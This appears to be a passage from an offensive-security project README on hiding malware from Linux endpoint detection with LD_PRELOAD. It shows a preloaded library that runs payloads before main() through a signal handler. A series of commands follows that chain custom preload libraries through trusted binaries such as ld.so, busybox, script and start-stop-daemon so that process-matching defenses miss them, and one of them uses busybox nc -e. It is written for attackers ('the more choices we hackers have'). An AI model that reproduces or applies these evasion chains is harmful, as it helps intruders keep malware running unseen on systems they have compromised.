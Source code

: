 Example:

```sh
$LD_PRELOAD=lib/libinterrupt.so /bin/ls
```

-or-

```sh
$LD_PRELOAD=lib/libinterrupt.so bin/main
Before main()
Trigger SIGFPE handler
In SIGFPE handler
1 / 0: caught division by zero!
Executing payloads here ...

bin  ext  lib  Log.md  Makefile  README.md  run.sh  src  test.sh
```

## Expanding and Scaling the Evasion Capabilities

Or, _Guiding the ant to its final destination..._

We have talked about the evasion primitives as far as preloading either our rudimentary cradle/shim with malicious payload libraries, or to use approved system binaries as decoys via preloads. Let's explore how the concepts can be expanded upon in adversarial defensive environments. The more choices we hackers have, the better.

Highlights:

- Hiding from EDRs via existing trusted binary decoys.
- Expanding dynamic scripting capabilities in the field.
- Progressive LD_PRELOAD command line evaders.
- Malware evaders with Self-preservation instincts.

### 0x0. Inline Evasions, via `busybox` and `ld.so` loader

We could take the concepts and just use them with binaries that run binaries for us. Some great decoys already exist on many Linux systems. For example, `ld.so` is a loader that can run executables directly as parameters. Very handy. `ld.so` is always approved, right. So is `busybox` meta binary. We can even combine the two together to escape process pattern matching defensive engines. Consider the following:

Examples:

```sh

$/bin/busybox /bin/ls

$LD_PRELOAD=./lib/libweakref.so:./lib/libweakref2.so /lib64/ld-linux-x86-64.so.2 /bin/busybox  ls 

$LD_PRELOAD=./lib/libweakref.so:./lib/libweakref2.so /lib64/ld-linux-x86-64.so.2 /bin/busybox  find /bin -name cat -exec /bin/ls / \;

$LD_PRELOAD=./lib/libweakref.so:./lib/libweakref2.so /lib64/ld-linux-x86-64.so.2 /bin/busybox  nc -f /dev/pts/0  -e /bin/ls

$LD_PRELOAD=./lib/libweakref.so:./lib/libweakref2.so /lib64/ld-linux-x86-64.so.2 /bin/busybox  openvt -c 5  -w /bin/ls > /tmp/ls.out

$LD_PRELOAD=./lib/libweakref.so:./lib/libweakref2.so script -c /bin/ls

$LD_PRELOAD=./lib/libweakref.so:./lib/libweakref2.so busybox setsid  -c /bin/ls

$LD_PRELOAD=./lib/libweakref.so:./lib/libweakref2.so start-stop-daemon -x /bin/ls --start

$LD_PRELOAD=./lib/libweakref.so:./lib/libweakref2.so taskset 0x00000001 /bin/ls

```
